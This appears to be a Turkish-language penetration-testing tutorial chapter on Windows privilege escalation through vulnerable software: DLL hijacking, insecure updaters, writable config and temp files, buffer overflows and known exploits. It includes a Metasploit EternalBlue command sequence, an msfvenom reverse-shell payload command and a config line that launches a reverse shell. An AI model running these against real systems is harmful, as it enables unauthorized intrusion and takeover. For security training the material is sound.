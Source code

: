**Windows Privilege Escalation: Software Exploitation (Yazılım Zafiyetlerinin Kullanılması)**

Windows sistemlerinde yüklü yazılımlar ve uygulamalardaki zafiyetler, saldırganlar tarafından yetki yükseltme amacıyla kullanılabilir. Özellikle üçüncü taraf yazılımlar veya varsayılan sistem uygulamalarındaki açıklar, kötü niyetli kullanıcılar için bir fırsat sunar. Bu bölümde yazılım zafiyetlerinin nasıl tespit edilip kullanılabileceği detaylı şekilde açıklanmıştır.

---

### **7.1. Üçüncü Taraf Yazılım Zafiyetleri**

Üçüncü taraf yazılımlar, genellikle sistemde açık oluşturabilecek güvenlik zafiyetlerine sahiptir. Bu zafiyetler, güncel olmayan yazılımlar veya yanlış yapılandırmalardan kaynaklanabilir.

#### **Tespit**
1. Sistemde yüklü olan tüm yazılımları listelemek için:
   ```cmd
   wmic product get name,version
   ```
2. Yüklü yazılımları Exploit-DB veya CVE Details gibi platformlarda arayarak zafiyetleri kontrol edin.

#### **Kötüye Kullanma**
- Bulunan zafiyetler için exploit oluşturun veya mevcut bir exploit kullanın.
- Örneğin, Adobe Reader veya VMware Tools gibi bilinen uygulamalardaki açıklar için exploit'leri uygulayın.

---

### **7.2. Güncelleyici Mekanizmaların Kötüye Kullanılması (Insecure Updaters)**

Bazı yazılımlar, güncellemeleri HTTPS yerine HTTP üzerinden indirir veya imza doğrulaması yapmaz. Bu durum, güncelleme sırasında saldırganların zararlı dosyalar yüklemesine olanak tanır.

#### **Tespit**
1. Güncelleme sırasında ağ trafiğini izlemek için Wireshark veya tcpdump kullanın.
2. HTTP üzerinden güncelleme yapan yazılımları tespit edin.

#### **Kötüye Kullanma**
- **Man-in-the-Middle (MitM):** HTTP güncelleme bağlantısını ele geçirerek zararlı bir dosya sunun.
- **Exploit**: Güncelleyici tarafından indirilen dosyaları kötü niyetli payload ile değiştirin.

---

### **7.3. DLL Hijacking (DLL Kaçırma)**

DLL Hijacking, uygulamaların çalıştırılması sırasında eksik veya zafiyetli DLL'leri kötüye kullanarak kod çalıştırmayı hedefler.

#### **Tespit**
1. Process Monitor (ProcMon) ile bir uygulamanın çalıştırdığı DLL'leri izleyin.
2. Eksik DLL'leri tespit edin.

#### **Kötüye Kullanma**
1. Eksik olan DLL'yi zararlı bir DLL ile değiştirin veya oluşturun.
2. DLL'yi hedef uygulamanın çalıştırdığı dizine yerleştirin.
3. Uygulamayı başlatarak zararlı kodun çalışmasını sağlayın.

---

### **7.4. Yazılabilir Yapılandırma Dosyaları**

Birçok yazılım, yapılandırma dosyalarını düz metin olarak saklar. Bu dosyaların yazılabilir olması, saldırganların zararlı bir komut eklemesine izin verebilir.

#### **Tespit**
1. Yazılabilir yapılandırma dosyalarını bulmak için:
   ```cmd
   icacls "C:\Path\to\ConfigFiles"
   ```
2. Özellikle çalıştırılabilir dosyalarla ilişkilendirilmiş yapılandırma dosyalarına odaklanın.

#### **Kötüye Kullanma**
1. Yapılandırma dosyasına zararlı bir komut ekleyin:
   ```ini
   [Startup]
   Command=C:\reverse_shell.exe
   ```
2. Uygulamayı yeniden başlatarak payload'ı tetikleyin.

---

### **7.5. Tersine Mühendislik (Reverse Engineering)**

Yazılımların tersine mühendislik yoluyla analiz edilmesi, güvenlik açıklarını bulmayı sağlar.

#### **Araçlar**
- **IDA Pro / Ghidra:** Yazılımların assembly kodlarını analiz etmek için.
- **OllyDbg / x64dbg:** Debugging işlemleri için.

#### **Kötüye Kullanma**
1. Bir uygulamanın binary dosyasını tersine mühendislik araçlarıyla analiz edin.
2. Kendi exploit'inizi yazın veya mevcut bir açığı manipüle edin.

---

### **7.6. Bilinen Yazılım Zafiyetlerinin Kullanılması**

Microsoft ve üçüncü taraf yazılımlarda zaman zaman kritik zafiyetler bulunur. Bu zafiyetler için genellikle exploit scriptleri hazırlanır.

#### **Örnekler**
- **MS17-010 (EternalBlue):** SMB protokolündeki zafiyeti kullanarak SYSTEM yetkisi elde etme.
- **CVE-2021-34527 (PrintNightmare):** Windows Print Spooler zafiyetini kullanarak SYSTEM yetkisi elde etme.

#### **Kötüye Kullanma**
1. Metasploit veya Impacket modüllerini kullanarak zafiyeti sömürün:
   ```cmd
   msfconsole
   use exploit/windows/smb/ms17_010_eternalblue
   set RHOST [target_ip]
   exploit
   ```

---

### **7.7. Stack veya Heap Buffer Overflow (Bellek Taşması)**

Bazı yazılımlar, stack veya heap tabanlı bellek taşması açıklarına sahiptir. Bu açıklar, saldırganların kod çalıştırmasına olanak tanır.

#### **Tespit**
1. Yazılımı fuzzing araçlarıyla test edin.
   - **AFL (American Fuzzy Lop):** Yazılımı otomatik olarak fuzz etmek için kullanılabilir.
2. Hata mesajlarını veya crash raporlarını analiz edin.

#### **Kötüye Kullanma**
1. Eksploit scripti yazın veya mevcut bir script kullanın.
2. Payload'ınızı hedef yazılımın açığına göre hazırlayın:
   ```cmd
   msfvenom -p windows/shell_reverse_tcp LHOST=[IP] LPORT=[PORT] -f exe > exploit.exe
   ```

---

### **7.8. Yazılımların Geçici Dosyalarının Kötüye Kullanılması**

Bazı yazılımlar geçici dosyalarını (temporary files) düzgün bir şekilde güvence altına almaz. Bu dosyalara yazılabilir durumda olan bir saldırgan, zararlı kod ekleyebilir.

#### **Tespit**
1. Geçici dosyaların oluşturulduğu dizini kontrol edin:
   ```cmd
   dir %TEMP%
   ```
2. Yazılabilir dosya veya dizinleri tespit edin.

#### **Kötüye Kullanma**
1. Yazılabilir bir geçici dosyayı bulun ve değiştirin.
2. Yazılımın bu dosyayı okumasını sağlayarak kodunuzu çalıştırın.

---

### **Araçlar**
- **Metasploit Framework:** Bilinen yazılım zafiyetleri için modüller içerir.
- **Exploit-DB:** Yazılım zafiyetlerini araştırmak için.
- **ProcMon:** Yazılım davranışlarını izlemek için.
- **IDA Pro / Ghidra:** Tersine mühendislik ve exploit geliştirme için.
- **Immunity Debugger:** Exploit geliştirme sürecinde debugging işlemleri için.

---
